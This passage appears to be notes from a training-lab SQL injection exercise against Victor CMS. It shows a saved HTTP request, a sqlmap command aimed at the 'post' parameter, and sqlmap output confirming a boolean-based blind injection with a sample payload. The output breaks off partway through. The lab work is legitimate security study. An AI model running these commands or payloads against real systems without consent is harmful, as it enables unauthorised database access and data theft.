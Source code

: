 ![Lab - Victor CMS 5](./assets/04_sql_injection_attacks_lab_victor_cms_5.png)

`vim ./request.txt`:
```http
GET /post.php?post=1 HTTP/2
Host: vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=j0fevhs6826gn9bfa8chjfvci2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

`sqlmap -r ./request.txt -p 'post'`:
```
       ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:44:01 /2024-12-10/

[17:44:01] [INFO] parsing HTTP request from './request.txt'
[17:44:02] [INFO] testing connection to the target URL
got a 302 redirect to 'https://vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com/post.php?post=1'. Do you want to follow? [Y/n] Y
[17:44:10] [INFO] checking if the target is protected by some kind of WAF/IPS
[17:44:10] [INFO] testing if the target URL content is stable
[17:44:11] [WARNING] heuristic (basic) test shows that GET parameter 'post' might not be injectable
[17:44:11] [INFO] testing for SQL injection on GET parameter 'post'
[17:44:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[17:44:13] [INFO] GET parameter 'post' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[17:44:20] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y

[...]

T parameter 'post' is vulnerable.📌 Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 77 HTTP(s) requests:
---
Parameter: post (GET)📌
    Type: boolean-based blind📌
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: post=1 AND 8571=8571📌

    Type: time-based blind
```